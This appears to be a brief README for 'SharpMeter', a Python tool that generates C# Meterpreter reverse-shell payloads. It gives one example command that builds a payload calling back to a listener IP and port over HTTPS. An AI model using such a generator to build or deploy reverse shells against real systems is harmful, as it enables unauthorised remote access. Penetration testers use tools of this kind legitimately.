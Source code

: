 # SharpMeter
A Simple Way To Make Meterpreter Reverse Payloads

# Example
python SharpMeter.py 192.168.1.101 443 compileme.cs https
